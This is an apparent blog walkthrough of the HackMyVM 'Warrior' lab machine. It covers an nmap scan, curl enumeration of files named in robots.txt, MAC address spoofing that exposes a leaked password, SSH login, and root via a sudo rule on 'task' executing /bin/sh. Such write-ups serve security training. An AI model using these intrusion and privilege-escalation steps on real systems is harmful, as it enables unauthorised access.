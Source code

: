 ```yaml
---
layout: post
title: "HackMyVM - Warrior"
date: 2022-03-28 15:47:00 +0100
categories: hmv
---
```


Creator: [sml](https://hackmyvm.eu/profile/?user=sml)
Level: Easy
Release Date: 2022-02-10
MD5: b206264c962a04c6233fb33711e3328c

## NMAP 

```
nmap -sC -sV -p- 192.168.1.144
```

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-28 12:42 WEST
Nmap scan report for 192.168.1.144
Host is up (0.00035s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 25:16:8d:63:6b:75:f0:59:55:d4:b0:2d:75:8d:e0:e6 (RSA)
|   256 1e:29:d0:f4:c5:95:e7:40:30:2b:35:f7:a3:bc:36:75 (ECDSA)
|_  256 cc:b1:52:b3:d7:ef:cd:73:4c:fc:f6:b5:51:77:ea:f3 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-robots.txt: 7 disallowed entries 
| /admin /secret.txt /uploads/id_rsa /internal.php 
|_/internal /cms /user.txt
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.16 seconds
```

## Enumeration

```                                                                                                                                                                       
$ curl http://192.168.1.144/user.txt                                           
loco
                                                                                                                                                                       
$ curl http://192.168.1.144/internal.php
Hey bro, you need to have an internal MAC as 00:00:00:00:00:a? to read your pass..                                                                                                                                                                       
                                                                                                                                                                       
$ curl http://192.168.1.144/secret.txt    
0123456789ABCDEF
```

## Change MAC adress on VM (00:00:00:00:00:AF) 

```bash
sudo ifconfig eth0 down
sudo ifconfig eth0 hw ether 00:00:00:00:00:af
sudo ifconfig eth0 up
sudo service networking restart
ifconfig
```

```html
curl http://192.168.1.35/internal.php -k
<br>Good!!!!!<!-- Your password is: Zurviv0r1 -->
```

## Root - [task](https://gtfobins.github.io/gtfobins/task/#sudo)

### SSH Login

```bash
ssh -l bro 192.168.1.35
```

```bash
bro@warrior:~$ whereis sudo
sudo: /usr/sbin/sudo /usr/lib/sudo /etc/sudo.conf /usr/share/man/man8/sudo.8.gz
bro@warrior:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
bro@warrior:~$ /usr/sbin/sudo
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user] [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-D directory] [-g group] [-h host] [-p prompt] [-R directory] [-T timeout] [-u user] [VAR=value] [-i|-s]
            [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-D directory] [-g group] [-h host] [-p prompt] [-R directory] [-T timeout] [-u user] file ...
bro@warrior:~$ /usr/sbin/sudo -l
Matching Defaults entries for bro on warrior:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bro may run the following commands on warrior:
    (root) NOPASSWD: /usr/bin/task
```

```bash
bro@warrior:~$ /usr/sbin/sudo task execute /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```
